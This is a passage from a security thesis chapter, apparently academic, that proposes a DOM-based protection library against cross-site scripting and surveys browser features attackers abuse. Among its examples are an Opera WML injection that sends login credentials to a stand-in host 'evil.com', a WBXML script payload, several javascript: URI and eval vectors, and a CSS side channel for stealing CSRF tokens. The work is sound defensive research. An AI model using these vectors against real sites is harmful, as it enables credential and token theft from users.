\epigraph{Only a fool lets a fox guard the henhouse}%
{\textsc{Old Proverb}}

%\section{Rethinking Client-Side Web Security}
\label{sec:6.rethinking_client_side_web_security}

  In the following sections, we will tackle the attacks reviewed in Section~\ref{sec:5.attacking_existing_mitigation_approaches}, subsequently introduce and discuss a novel defense approach to resisting them. Our proposal describes a browser's Document Object Model (DOM) as an ideal layer to install and deploy a protection feature against scripting web attacks and related threats. Contrary to the aforementioned defense mechanisms, this approach is nearly immune against obfuscation, attacks using impedance mismatches, character-set-based attacks and many other techniques formerly used to bypass existing web application filters, IDS and WAF. We will conclude with describing several detailed evaluation processes and a discussion of existing limitations and future work.

  \section{Introduction and Rationale}
  \label{subsec:6.1.introduction_and_rationale}

  Securing complex web applications against malicious input is usually a complicated and time-consuming process. Not only the knowledge of developmental and architectural best practices, but also the awareness of the numerous attack techniques against web applications are required for a successful developer. The already large and growing number as well as the complexity of attack vectors pose a challenge for even the most experienced programmers. For that reason, libraries and tools were created to ease input filtering, processing, upload handling and other potentially critical transactions prone to being used as a gateway for an assault. We have discussed the most prominent mitigation techniques in Section~\ref{sec:4.current_mitigation_approaches} and explained their operational behaviors. Constituting the next step,  Section~\ref{sec:5.attacking_existing_mitigation_approaches} described how these and further mitigation techniques are being bypassed by attackers. Finally, we have now arrived at the point where we dedicate Chapter~\ref{ch:4:novel-defense-approaches} to rethinking client-side web security, which is an essential contribution of this work.\\

  So far, our focus was on scripting attacks and finding bypasses abusing discrepancies between the filter knowledge and the browser capabilities. Please note that we were not concentrating on simple programming errors but rather on actual design, discrepancies and specification-based flaws that are hard or impossible to fix without harming integrity and functionality. The conclusion drawn in Section~\ref{sec:5.attacking_existing_mitigation_approaches} was that a filter software unable to know the capabilities of the user agent processing the filtered output is unable to succeed without constant and continuous maintenance. We consider server-side filtering solutions to be lacking this knowledge as they reside on a different layer than  user agent and the website's DOM. We have discovered and reported a series of bypasses in the most prominent server-side filter solutions including our challenge for the HTMLPurifier and AntiSamy, which were depicted in Section~\ref{subsubsec:5.4.6.bypassing_server_side_xss_protection}. We have also concluded that the filtering solution installed in the user agent itself is often insufficiently equipped with the necessary knowledge. That is to say that our tests showed that the Internet Explorer XSS filter, the Google Chrome XSS Auditor and the NoScript XSS protection do not utilize or possess the necessary knowledge to detect attacks, which are making use of undocumented user agent features or legacy technologies. The filter bypasses we have introduced and discussed in Section~\ref{subsubsec:5.4.7.bypassing_client_side_xss_protection} clearly underlined this. Server- and client-side filters are further affected by the nearly impossible to manage matters of constant advancements in regards to available user agent features, the multitude of available user agent software with its versions and minor versions combined with the large cloud of available browser plug-ins supporting successful exploitation.\\

  This chapter will announce and present a novel approach to stand guard over web-based scripting attacks. We have specified and created a prototypic implementation of a DOM protection library that has multiple advantages over classic server-side XSS filters and browser-based XSS detection tools. Out security tool resides and executes directly within a website's Document Object Model (DOM). The following list outlines some of its key features: 

\begin{itemize}
  %
  \item It is immune against obfuscation-based attacks mentioned in Section~\ref{subsubsec:5.4.2.obfuscation}
  %
  \item It is capable of detecting and preventing the DOMXSS attacks discussed in Section~\ref{subsubsec:5.4.4.domxss}
  %
  \item It does not require constant maintenance in case a user agent provides a larger feature set after an update
  %
  \item It can be deployed as a website script via proxy injection, user script or browser extension
  %
  \item It supports interfaces to server-side analysis and logging tools
  %
  \item It does not rely on a domain based trust system like the NoScript extensions	
  %
  \item It has no impact on the user's browsing experience by noticeably affecting performance or displaying dialog boxes and warning messages
  %
\end{itemize}

  Quantity and implications of XSS attacks have significantly increased over the last decade -- and from then till now server-side filters and sanitation libraries have failed to fully solve the issues arising from them. High traffic websites, online banking systems, e-commerce sites and online shops, as well as other applications processing sensitive data, are are all greatly affected by XSS vulnerabilities and exploits. We put forward a new system that is capable of delivering security on the same layer that the attack takes place on. We are doing so by creating a tampering-resistant wrapped DOM, which installs an optional Intrusion Detection System (IDS) and Role Based Access Control (RBAC) layer for further in-depth security. We have proven effectiveness and feasibility of our approach through an unusual but effective evaluation method of a series of security challenges. The following paragraphs will elaborate on the design, the inner workings, further goals and the evaluation details of our prototypic security tool. We will conclude with a glance towards a future, starting with a comprehensive section on current pitfalls and limitations, and including plans of getting around them with the releases to come.

  \section{JavaScript and the DOM}
  \label{subsec:6.2.javascript_and_the_dom}

    The Document Object Model (DOM) is a client- and platform-independent representation of a HTML/XML tree accessible via a public API; it allows modifications to the markup and structural aspects of the loaded documents. 

    \subsection{History and Development}
    \label{subsubsec:6.2.1.history_and_development}

    Browsers have started to incorporate a first level of DOM API in the late 1990s. It mainly concerned enabling form element addressing, form element value validation against developer supplied rules, changes to links and other elements, as well as their appearance and image sources. The first browser DOM  versions implemented in early Internet Explorer and Netscape releases did not follow any standards or publicly shared specification whatsoever. With rising complexity of the offered API and addition of further features, the gaps between those DOM implementations grew bigger and developers were forced to either accordingly optimize their websites for Netscape/Internet Explorer or develop two different versions of at least parts of the website once decent DOM interactions or dynamic HTML (DHTML) features were implemented. These versions of the DOM are also known as DOM Level 0, legacy DOM or, later on, intermediate DOM. From a security perspective, these controls of link, image and form still cause problems in several implementations. Detailed discussion of these cases can be found in Section~\ref{subsubsec:5.4.3.dom_clobbering}.\\

    A first standardized version of the DOM that browsers were recommended to support was published in 1998 by the W3C and it has been henceforth known as DOM Level 1 -- containing some parts of the DOM API described earlier by the HTML4 specification. A fully comprehensive coverage of the markup tree was unique to DOM Level 1. A developer could control any portion of the document markup by using the DOM API. Earlier drafts and implementations were limited in these regards and only allowed accessing certain elements such as the aforementioned forms and links. Bear in mind that JavaScript itself, per se has nothing to do with the DOM and it is the modern browsers that allow JavaScript and comparable scripting languages and plug-ins to interact with the DOM APIs. Consequently, in most cases, the DOM is being accessed via JavaScript. It has to be noted that languages such as Action Script, to some extent Acrobat Script, and especially Visual Basic Script (VBS) can interact with the DOM as well and provide similar features. Accessing the DOM via JavaScript allows application of the JavaScript language features for DOM elements. This is of substantial importance to our DOM-based security approach. DOM Level 2 was published as W3C recommendation in December 2000 and describes a rather small set of changes compared to DOM Level 1~\footnote{W3C, \textit{Changes between DOM Level 1 Core and DOM Level 2 Core}, \url{http://www.w3.org/TR/DOM-Level-2-Core/changes.html} (Dec 2000)}.\\

     DOM Level 3 is holding a recommendatory status nowadays. It is being widely implemented and most modern browsers support large quantities of specified APIs and behaviors. Several of the W3C proposed events are being used by our prototypic security library as well as IceShield discussed in Section~\ref{subsec:6.5.introducing_iceshield}. 
     As we were writing up, the DOM Level 4 specification has reached working draft status. It manifests details about DOM ranges, HTML element collections and other specifics so far not sufficiently covered by DOM Level 3. DOM Level 4 is being developed by the editors employed by Google, Mozilla and Opera.

    \subsection{Objects, Methods and Properties}
    \label{subsubsec:6.2.2.objects_methods_and_properties}
    
    In JavaScript, essentially everything that is not a statement, a comment or an operator has a status of an object or provides object-like features. Even the boolean states true and false can be accessed as objects. The following code snippet shows how the constructor prototype's \textit{\_\_proto\_\_} object of ``true'' can be obtained and used or manipulated:  \texttt{true.constructor.prototype.\\
\_\_proto\_\_} We will elaborate on prototyping in Section~\ref{subsubsec:6.2.3.prototyping}. Even methods are being represented by an object-like structure in JavaScript. They too can be derived to its proto objects such as \textit{Function} and \textit{Object} or even \textit{Empty} on several user agents. A method object itself has methods such as \textit{call} and \textit{apply}, as well as properties such as \textit{length} enumerating the number of arguments, its ``arity'' (an obsolete interface giving out similar information as length about the required method arguments), and many others. The \textit{call} and \textit{apply} methods of a function object (or actual method) are naturally applied with a \textit{call} and \textit{apply} interface of their own -- which then again exposes a constructor object, subsequently directing back to the actual function constructor and allowing script code execution: \texttt{alert.constructor.prototype.call.call.call.constructor}. In several browsers, these prototype and constructor chains led to dangerous code execution vulnerabilities. For example, it was possible to access the \textit{setter} for a certain property and thereby retrieve a privileged browser DOM object such as the search field, the address bar, or a dialog element. For introductory purposes in the concepts and often confusing systematics behind JavaScript, the Mozilla Developer Network can be consulted~\footnote{MDN, \textit{A re-introduction to JavaScript}, \url{https://developer.mozilla.org/en/A_re-introduction_to_JavaScript} (Feb 2012)}.\\

    JavaScript allows behavior modification of native data types such as the \textit{String} or \textit{Array} constructor. This allows inheritance of the modifications to instances of this object -- used for malicious hijacking techniques. Some attack techniques published by Walker in 2007~\footnote{Walker, \textit{JSON is not as safe as people think it is}, \url{http://directwebremoting.org/blog/joe/2007/03/05/json_is_not_as_safe_as_people_think_it_is.html} (March 2007)} made use of the flexibility JavaScript provides in regards to the handling and overwriting of native data types and their properties. Walker demonstrated how browsers allow changing the default behavior of Array and Object constructors and thereby steal cross domain data. This was accomplished by first preparing a malicious \textit{Array} object and then including cross domain JSON data that then gets parsed accordingly to the modifications and leaks almost arbitrary information about its contents. By now, JSON hijacking has been fixed in most user agents yet it is still surfacing in regular intervals. In 2009 and 2011 it was revisited by Heyes because of remaining glitches and vulnerabilities~\footnote{Heyes, \textit{JSON Hijacking}, \url{http://www.thespanner.co.uk/2011/05/30/json-hijacking/} (May 2011)}.\\

    JavaScript properties are not only objects themselves, but possess yet another interesting feature. We will employ this feature in a slightly enhanced form to make use of in our DOM-based protection approach. Any property can be applied with a getter and a setter function, which executes once a read/write access occurs. Most user agents provide different ways to define getters and setters, which are more or less conform to the specification. Internet Explorer knows the \textit{onpropertychange} event, Gecko-based browsers allow a deprecated \textit{setter} syntax enabling method execution without parenthesis (example: \texttt{a=a setter=alert}). The Mozilla Developer Network (MDN) elaborates further on available techniques for getter and setter control~\footnote{MDN, \textit{Defining Getters and Setters}, \url{https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Creating_New_Objects/Defining_Getters_and_Setters} (Dec 2011)} including the \textit{\_\_defineGetter\_\_} syntax described in Section~\ref{subsubsubsec:6.3.1.1.using_definegetter_and_definesetter}. The for this thesis relevant and guidelines' observant method is using the ES5 object extensions described in Section~\ref{subsubsec:6.3.2.es5_object_extensions}. Keeping the general scope of this thesis in mind, one should make note of the fact that a developer can essentially change the behavior of host objects and native properties. He can also control getter and setter access and perform those operations on the DOM objects available for the loaded document. This and consecutively discussed techniques and implementations mark the very foundation of the trusted DOM and its security aspects we propose in this chapter.

    \subsection{Prototyping}
    \label{subsubsec:6.2.3.prototyping}

    The JavaScript language employs a variation of object oriented programming (OOP) called prototyping. Prototyping-based programming usually does not involve the usage of classes, but offers prototype objects from which instances can be cloned. In JavaScript, the \textit{new} operator can be used to generate an instance from a constructor; the function an object instance is being created from. The constructor usually has a prototype, which in turn may have a \textit{\_\_proto\_\_} object and yet another constructor. The terminology is often confusing for developers versed in different OOP techniques and paradigms. On this account, the Mozilla Developer Network provides an introduction~\footnote{MDN, \textit{Inheritance and the prototype chain}, \url{https://developer.mozilla.org/en/JavaScript/Guide/Inheritance_and_the_prototype_chain} (Jan 2012)}.\\

    As mentioned, the constructor function can be used to create an object instance. Nevertheless, the prototype property of this constructor allows to add and edit existing methods and properties. The \textit{String} object is an exemplary constructor, a string object mapped to the label \textit{test} can thus be created by executing the following code: \texttt{var test = new String('foobar')}. When accessing \textit{test.constructor.prototype}, the methods available after instantiation can be modified. The code shown in Listing~\ref{lst:constructors-prototypes} provides some examples for further clarification.

\begin{lstlisting}[captionpos=b,label=lst:constructors-prototypes,caption=Examples for constructor and prototype usage in JavaScript; the prototype is being accessed and manipulated to replace concat() with alert()]
<script type="text/javascript">
  // overwriting String.concat with alert
  String.prototype.concat = function(){alert(arguments[0])}
  var test = new String();
  test.concat(1) // will call alert(1)
  
  // overwriting via constructor access
  test.constructor.prototype.concat = function(){confirm(arguments[0])}
  test.concat(1) // will call confirm(1)
</script>
\end{lstlisting}   

    Some constructors additionally allow implicit instantiation -- a string object mapped to the label \textit{test} can be created by simply executing the following code: \texttt{var test = 'foobar'}. This implicit instantiation is available for the object types \textit{String}, \textit{Number}, \textit{Boolean}, \textit{RexExp}, \textit{Array} and \textit{Object} -- as shown in Table~\ref{tbl:implicit-instatiation}. Note that JavaScript enables constructor access for implicitly instantiated objects so the code \texttt{''.constructor.\\
prototype.concat} will facilitate access to the \textit{concat} method prototype. For security reasons explained in Section~\ref{subsubsec:6.2.2.objects_methods_and_properties}, the instantiation of an object sometimes yields different results based on the chosen instantiation method -- effective preventing JSON hijacking attacks.\\

\begin{table}
  \centering
    \begin{tabular}{| l | l | l | l | l | l | l | l | l | l |}
    \hline
    Prototype & explicit & implicit  \\ \hline
    Object  & new Object() & {a:1} \\ \hline
    String & new String() & 'foobar' \\ \hline
    Array & new Array() & [1,2,3] \\ \hline
    Number & new Number() & 1e+1 \\ \hline
    Boolean & new Boolean() & true \\ \hline
    RegExp & new RegExp() & /./ \\ \hline
    \end{tabular}
    \label{tbl:implicit-instatiation}
    \caption{Examples for explicit and implicit instantiation}
\end{table}

    Several more host object constructors are available to chose from in a DOM or DOM-like environment. Among them, one can name \textit{Image()} for image objects, \textit{Option()} for \textit{option} items in HTML \textit{select} elements and, ultimately, one constructor for each and every possible HTML and SVG element; those are currently the available DOM representations for XML/HTML nodes. Future browser versions might include MathML constructors as well. Depending on the namespace they reside in, those constructors are being prefixed with the string HTML or SVG. For instance, the \textit{html} element is represented by the constructor \textit{HTMLHtmlElement}, while the constructor for the \textit{a} element is accessible via \textit{HTMLAnchorElement}. Any HTML element constructors' methods and properties, including the available HTML attributes, are equally represented by the prototype and can be accessed via the constructor prototype. On that grounds, to make sure that a call to a form element's submit method is being replaced by a user defined function call, the property \textit {HTMLFormElement.prototype.submit} should be modified. In Section~\ref{subsubsec:6.3.2.es5_object_extensions}, we will allude to how this can receive supplemental extension and how the wrapped method can be sealed from external access.\\

    The actual prototype of an object can -- at least in some user agents -- be accessed through the \textit{\_\_proto\_\_} property. While prototypes might be invisible for an object in case they belong to a different object than the actual object has been created from, the methods attached exclusively to the inheriting object can be accessed by using \textit{\_\_proto\_\_}. While this might sound confusing, again, an example should help by illustrating this relation: The \textit{HTMLFormElement} constructor inherits properties from the \textit{HTMLElement} object -- which also inherits capabilities to \textit{HTMLFormElement} such as for example the method \textit{insertAdjacentHTML()} or anther method named \textit{normalize()}. When inspecting the prototype of \textit{HTMLFormElement}, neither \textit{insertAdjacentHTML()} nor \textit{normalize()} are directly visible; yet they remains available for its instances. Only the \textit{\_\_proto\_\_} property of \textit{HTMLFormElement.prototype} will unveil their existence. This hierarchy model goes even deeper because \textit{HTMLElement} itself inherited from \textit{Element} (its \textit{\_\_proto\_\_}), which then again inherited from \textit{Node}, that ultimately inherited properties and methods from Object -- the final element of the proto-chain. To summarize, while a developer can indeed call a form object's \textit{normalize()} method, the method will not be visible by simply inspecting \textit{HTMLFormElement.prototype}; this is the same for \textit{insertAdjacentHTML()}. Only going further down the proto-chain and inspecting \textit{HTMLFormElement.prototype.\_\_proto\_\_.\_\_proto\_\_.\_\_proto\_\_} will reveal those method's presence and availability~\footnote{MDN, \textit{\_\_proto\_\_}, \url{https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Object/proto} (Dec 2011)}. To summarize this Section, the JavaScript prototyping based object foundation holds benefits for developers regarding flexibility and inheritance control, but also bears several pit-falls considerably important from security and visibility point of view.

    %\subsection{Browser Properties}
    %\label{subsubsec:6.2.4.browser_properties}

\subsection{Proprietary Interfaces}
    \label{subsubsec:6.2.5.proprietary_interfaces}

    Aside from the DOM objects specified by the W3C, WHATWG, and the host objects required by the ECMA Script specifications, each of the tested user agents implements a wide array of proprietary DOM objects and interfaces. Many of those are relevant for scripting attacks and client- side security due to the fact that they often provide additional ways for either code obfuscation or arbitrary scripting code execution. This exposes a major problem for DOM-based security tools in a way that any reliable solution must have full knowledge of the existing properties. While gaining this knowledge should be possible by specification, not all user agents fully comply with this demand. The proposed and ES5-provided way to get a list of all object members, even if non-enumerable or hidden otherwise, is calling the \textit{getOwnProperties} method of the Object constructor, parametrized with the object to inspect. Comprehensive guide to this interface will be given in Section~\ref{subsubsec:6.3.2.es5_object_extensions}. \\
  
    Unfortunately, Gecko-based user agents will not return a complete list of HTML element constructors once \textit{getOwnPropertyNames()} is being called on the global window object. It will bring forward only those element constructors that are already represented by actual elements in the DOM before script's execution. This deviation from the standard -- obviously implemented for performance reasons -- prohibits creation of a reliable white-list of the existing DOM elements and window child elements on Firefox and other browsers alike. Internet Explorer and Opera, as well as Webkit, return a \textit{seemingly} complete list. As a matter of fact, Firefox will even hide more objects and constructors from the eyes of \textit{Object.getOwnPropertyNames()}. This includes a wide range of XML-related constructors similarly capable of XSS attacks' usage. Furthermore, on some of the browser versions we tested with, the existence of the \textit{Packages} object is not being unveiled -- the LiveConnect interface allowing JavaScript to execute Java code in applet context we discussed in Section~\ref{subsubsubsec:2.4.3.2.java_plugin_security}.\\

    Microsoft Internet Explorer supports dynamic CSS expressions, effectively allowing execution of arbitrary JavaScript code in domain context. Despite this feature being only available in document modes for older Internet Explorer versions, the impact of a CSS expression based attack can still be considered major, for as long as many websites are being run in compatibility mode. Some prominent examples include the social network Facebook and Outlook Web Access applications. The dynamic CSS expression can be triggered via inline and external style-sheets, but may also provide a proprietary DOM API for the element-related and global style objects~\footnote{MSDN, \textit{About Dynamic Properties}, \url{http://msdn.microsoft.com/en-us/library/ms537634(v=vs.85).aspx} (Dec 2011)}. For a holistic DOM security solution to work, these interfaces must either be guarded or blocked. Similar logic applies to \textit{ActiveXObject} functionality in general; Internet Explorer allows to create a fully operational and fresh DOM by calling \texttt{new ActiveXObject('htmlfile')}, which also works for the parameter \textit{xmlfile}. This DOM can execute almost arbitrary JavaScript and related script code. It does not inherit existing properties from its parent DOM. Once an attacker tries to evade a frozen DOM, as introduced in Section~\ref{subsec:6.4.creating_a_frozen_dom}, this object poses an interesting and promising vector. Internet Explorer provides several tricks for change script's execution language context, switch from JavaScript to Visual Basic Script and thereby potentially disable protective JavaScript and enabling it to bypass the existing protective code. These techniques will be described in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac}, alongside with the mitigation tactics.\\

    Opera- and Presto-based user agents provide access to a deprecated API allowing an overlay of the existing links on a website with a new URL defined by CSS. In 2010, we discovered this as an excellent leverage for CSS-based XSS and injection attacks~\footnote{Heiderich, \textit{Opera CSS -link XSS}, \url{http://html5sec.org/?-o-link} (Oct 2010)}. A DOM-based security tool must either be aware of this problem or employ a CSS white-list once the DOM CSS API is used. Heyes' JSReg and CSSReg projects can be pressed into service for white-list enforcement. CSSReg is strictly prohibiting any CSS that could allow data exfiltration or script execution~\footnote{Heyes, \textit{CSSReg on Google Code}, \url{http://code.google.com/p/cssreg/} (Dec 2011)}. The possibilities attackers have once Opera mixes different types of XML data in XHTML documents persist to be the most problematic. It is for example possible to inject in-line Wireless Markup Language (WML) and thereby use a new and often unfiltered set of tags and elements to exfiltrate data and cause script execution. The Opera-only feature of supporting WBXML has even more damaging potential~\footnote{W3C, \textit{WAP Binary XML Content Format}, \url{http://www.w3.org/TR/wbxml/} (June 1999)}. By the means of WBXML, an attacker can inject compressed WAP binary wireless XML/WML data and completely evade those filters scanning for HTML content and checking for characters such as U+003C and U+003E. The code shown in Listing~\ref{lst:opera-wml-attacks} showcases in-line WML and WBXML attacks, which have been discovered during our reserach in late 2011~\footnote{Heiderich, \textit{WBXML XSS Example}, \url{http://html5sec.org/test.wbxml} (Dec 2011)}.

\begin{lstlisting}[captionpos=b,label=lst:opera-wml-attacks,caption=Example attacks using WML and WBXML in Opera; The first attack utilizes injected WML to overlap an existing form and accessing form element values; The second attack executes JavaScript via dictionary-compressed WBXML]
// Inline WML injection exfiltrating form data
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>WAP Injection Demo</title>
<style>*{font-family: Arial;font-size:12px;}</style>
</head>	
<body>
<h1>Admin Login</h1>
<form action="//good.com" method="post">
<label>Username</label>
<input type="text" name="username" value="admin" />
<label>Password</label>
<input type="password" name="password" value="s3cr3t" />
<input type="submit" />
</form>

<!--injection-->	
<wml xmlns="http://www.wapforum.org/2001/wml"><card style="position:
absolute;left:-999px;"><do type="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx" 
style="position:absolute;left:1350px;top:-3.3em;opacity:0"><go href=
"//evil.com"><postfield name="stolen_username" value="$(username)"/>
<postfield name="stolen_password" value="$(password)"/>	</go></do>
</card></wml>
<!--/injection-->	

</body>
</html>

// WBXML attack executing JavaScript from a compressed WML source
\x3\x2j\x7onload\0\xbf\x4\0\x3alert(1)\0\x1

\end{lstlisting}

    Similar problems caused by proprietary markup, DOM interfaces and CSS are present in Webkit-based user agents -- including Google Chrome, Safari, browsers on Android devices, the iPad and iPhone and other smart-phones and tablets. We have discovered a way to exfiltrate data by using a proprietary feature. With the assistance of this feature, an attacker can style scrollbars and effectively conduct side-channel attacks using custom fonts to measure HTML attribute content length and later brute-force character by character. This attack has been reported to Google Chrome's security team but was labeled as a feature and not an attack. Regrettably, it is likely to be present in future versions regardless of its damage potential. An example attack scenario of extracting the characters used inside a demonstrative Anti-CSRF token is publicly available online~\footnote{Heiderich, \textit{Stealing tokens with CSS and Webkit}, \url{http://html5sec.org/webkit/test} (Dec 2011)}. This assault technique employs a set of custom SVG fonts that contain a single dimensioned character each, an animation shrinking the container of a set of CSRF-protected links applied with the CSS content property, scrollbars sending a background image request on appearance and special word-wrap settings. This attack works completely script-less and is therefore very likely to bypass classic XSS filters.\\

    In conclusion to this section, let us state that proprietary DOM interfaces allowing to set user agent properties, exfiltrate data or execute arbitrary script code are significantly harmful for both server- and client-side filtering solutions and security tools. A client-side tool monitoring the actual JavaScript execution by creating a frozen DOM is nevertheless advantageous for effectively mitigating those attacks. While a server-side filter must have full knowledge of those attacks or heavily restrict the available features to effectively block combined attack vectors, a client-side security solution can simply guard the DOM interfaces from script executing vectors and prevent creation of a fresh DOM, as with the aforementioned \textit{ActiveXObject('htmlfile')}. Allow us to acknowledge that we have only mentioned a small number of proprietary interfaces to outline some examples and their possible impact. The different user agent families we tested provide a plethora of interfaces including ActiveX, E4X, various shadow DOM implementations, data URI support, JAR protocol handlers and many more features extending the attack surface.

    \subsection{Irregularly Behaving Properties}
    \label{subsubsec:6.2.6.magic_properties}
    % location, location.href, document.URL, window.name ...

    Most user agents support several DOM properties that provide features often appearing to be irregularly behaving or ``magic''. That is to say that those objects do not always react to the modification and getter access as they are expected to. They do, however, trigger interactions with user agent features or browser dialogs in the view port. One of the most prominent properties behaving differently than other DOM properties is the object \textit{window.location}, as well as \textit{document.location}. Those objects contain child properties such as \textit{location.hash}, \textit{location.href} and others. They also encompass several methods including \textit{location.assign()} and \textit{location.reload()}. Together, Table~4.2~%\ref{tbl:location-properties}
 and Table~4.3~%\ref{tbl:location-methods}
 supply an overview of the child elements and methods of the \textit{location} objects implemented in modern user agents. \\

\begin{table}
  \centering
    \begin{tabular}{| l | l | l | l | l | l | l | l | l | l |}
    \hline
    Engine & hash & host & hostname & href & pathname & port & protocol & search & origin  \\ \hline
    Gecko  & x & x & x & x & x & x & x & x & - \\ \hline
    Trident & x & x & x & x & x & x & x & x & - \\ \hline
    Presto & x & x & x & x & x & x & x & x & - \\ \hline
    Webkit & x & x & x & x & x & x & x & x & x \\ \hline
    \end{tabular}
    \label{tbl:location-properties}
    \caption{Location properties on common engine implementations}
\end{table}

\begin{table}
  \centering
    \begin{tabular}{| l | l | l | l |}
    \hline
    Engine & assign & reload & replace  \\ \hline
    Gecko  & x & x & x  \\ \hline
    Trident & x & x & x  \\ \hline
    Presto & x & x & x  \\ \hline
    Webkit & x & x & x  \\ \hline
    \end{tabular}
    \label{tbl:location-methods}
    \caption{Location methods on common engine implementations}
\end{table}

    Setting the value for \textit{location.href} makes it possible for a developer to conduct a redirection to the given URI or URI fragment. This is mostly equivalent to calling the location-methods for assigning a new location string, or reloading the existing location with additional parameters or even from the internal browser cache. Most user agents support a direct string assignment on the location property  \texttt{location='//example.com'}. This causes redirect to the given domain or URI fragment. For Internet Explorer the same behavior takes place for the property \textit{document.URL}. Other user agents only provide read access to this property. \\

    Our research has shown that the location methods \textit{reload()} and \textit{assign()} allow yet another method of redirection on Internet Explorer. Those methods can not only be called and applied with a location string or URL fragment, but the method properties can be set directly with a location string, too. Consequently, they will still perform a redirect or load to the given URI. The code snippets \texttt{location.replace='//example.com'} and \texttt{location.assign='//example\\
.com'} equally work and force the user agent to redirect to \textit{//example.com}. This is clearly non-standard and unwanted behavior, which has been reported as a bug. The assignment of a JavaScript URI marks yet another operationally successful XSS vector. For example, \texttt{location.assign='javascript:alert(1)'} will execute the alert method in the formerly loaded domain. In Section~\ref{subsubsec:6.7.2.taming_javascript_uris}, we will elaborate on these approaches particularly dangerous to client-side XSS protection in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}. \\

    The essence of security problems behind these peculiar ``magic`` properties is the lack of possibility to redefine the getter and setter logic. When a developer tries to reset those properties' getter and setter, the user agent will throw an exception and block the attempt. One of the reasons for this unique behavior is the risk of leakage for objects running in a more privileged context, an operation which can possibly lead to code execution. A potential attack blocked by this behavior would an attempt to hijack the caller of the setter of \textit{location} and thereby access the browser's chrome objects, as shown in Listing~\ref{lst:dom-priv-esc}.

\begin{lstlisting}[captionpos=b,label=lst:dom-priv-esc,caption=The location.href setter is being overwritten to attempt accessing a privileged method that may be causing a redirect; The code utilizes arguments.callee.caller to access this method]
<script type="text/javascript">
Object.defineProperty(location, 'href', {
  set:function(){arguments.callee.caller.execute_privileged_code()}
})} 
</script>
\end{lstlisting}

    Having a user utilize the browser's integrated search form could trigger an attack capable of accessing the caller as native browser object. Despite further reasons for \textit{location} being ``magic'', a possible solution against hijacking attempts of this kind while at the same time allowing getter and setter control will be discussed in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}. We will further elaborate on an exception we found during testing recent versions of the Firefox browser allowing to indeed redefine the accessor behavior of the \textit{location} object.\\

    It turned out that full location control is achievable on other browsers, too. On Internet Explorer it is obtained by creating variables in the window context having the same name as the location object. Depending the declaration manner, the user agents might confuse the local variable in \textit{window} scope with the global \textit{location} object, which is technically a child property of window. This can grant full control over location access, yet still preserving functionality of the native location host object. Be that as it may, it requires polluting the global scope and is thereby feasible but not elegant. In edge cases, the existing scripts might register problems in their execution flows as they are being confronted with local location objects rather than a real host object with overwritten accessor methods.\\

     The next ``magic'' property we will review is \textit{window.name}; it possesses capabilities that heavily differ from those of regular DOM objects. It has originated from the times when many websites were mere constructs consisting of several frames, i.e. a content frame, a navigational frame and a header and footer frame. To make sure a click on a link in the navigational frame changes the data displayed in the content frame instead of the navigational frame itself, a relation between link and frame has to be determined. This is acquired via the property \textit{window.name}. The content frame would use the name 'content' by for instance setting the DOM property \textit{window.name} to the string 'content'. The links displayed in the navigational frame will accordingly use an additional attribute called target, which will also be set to the 'content' value. A click on one of those links will then tell the user agents to initiate navigation in the content frame. Naturally, this property has to survive a refresh or redirect -- even if leading to a cross domain resource. The \textit{window.name} property  is thus unaffected by the Same Origin Policy (SOP) and persists against a page reload. It is quite clear that the property can also be used if no frame-set is present, but this time just as a single window or an Iframe. Name-target-based navigation works across multiple tabs, enabling attacks as described by Kreitz in 2010~\cite{kreitz2011timing}. Essentially, \textit{window.name} is considered to be a valuable tool for attackers due to its capacity to specify payload on a different domain different from the one that attack is being carried out on. An attacker can initially lure a victim to a maliciously prepared website, pre-fill \textit{window.name} with payload, next redirect the victim to the attacked website, and then simply execute the JavaScript snippet \textit{eval(name)} or \textit{location=name}. More over, the \textit{URL=name} snippet is serviceable on some browsers too -- mainly Internet Explorer. Since the payload is never being sent to a server but resides solely inside the client's DOM, this sequence of actions effectively bypasses WAF and IDS filters and hinders forensics of finding out the actual whereabouts of an attack.

    \subsection{String-to-Code and JavaScript Eval Methods}
    \label{subsubsec:6.2.7.string_to_code_and_javascript_eval_methods}

    A modern user agent's DOM provides a lot of ways to turn a simple string into an actually evaluated code. This poses risks for web applications; in case an attacker can control the value or arguments for one of those string-to-code transforms, a script injection vulnerability is likely to occur. Therefore, a DOM based protection tool must be aware of those properties and treat them with elevated caution. Before discussing those paths, we need to categorize them in order to understand how and why a browser would evaluate a string or indirectly create a vector executing arbitrary JavaScript code by utilizing event handlers or document content sinks. Fundamentally, those categories can be created by looking at the content of the strings. It should be timed to the moment of it being turned to code either by being used as parameter or assigned to an existing DOM property.

    \begin{itemize}
     \item \textbf{Sinks causing JavaScript string evaluation} Depending on the chosen user agent, an array of accomplishing similar effects exists alongside the obvious and well-known functions and statements evaluating JavaScript code, such as \textit{eval()} and \textit{execScript()} on Internet Explorer. Less popular ways include two styles of using \textit {setTimeout} and \textit{setInterval}~\footnote{Doyle, \textit{JavaScript Timers with setTimeout and setInterval}, \url{http://www.elated.com/articles/javascript-timers-with-settimeout-and-setinterval/} (March 2010)}. Both of these functions allow either a function or a string as a parameter. Microsoft Internet Explorer 10 supports the novel API \textit{msSetImmediate}, which is believed to be a more scalable way to approach animations and load heavy interval computations~\footnote{MSDN, \textit{msSetImmediate method}, \url{http://msdn.microsoft.com/en-us/library/windows/apps/hh453394(v=vs.85).aspx} (Dec 2011)}. Another possibility to evaluate strings relies on the function constructor usage. If called with a string parameter it yields an anonymous function, which can in turn be executed: \texttt{Function('alert(1)')()}. During our research, we have discovered another method allowing to code execution from strings. Working on Gecko-based user agents, this method is labeled \textit{generateCRFMRequest()} and it belongs to the \textit{crypto} object methods. The following snippet will execute the \textit{alert} method as defined in the fifth parameter: \texttt{crypto.generateCRMFRequest('CN=vvv', '', null, null, 'alert(1)', 512, null, 'rsa-dual-use')}.
      %
     \item \textbf{Sinks causing JavaScript URI execution}
     As mentioned in Section~\ref{subsubsec:6.2.6.magic_properties}, the classic injection point to resolving JavaScript URIs is the \textit{location} object. It is generally involving assignment to \textit{location}, \textit{location.href}, while on Internet Explorer it might even signify the overwriting of location methods such as \texttt{location.assign=\\
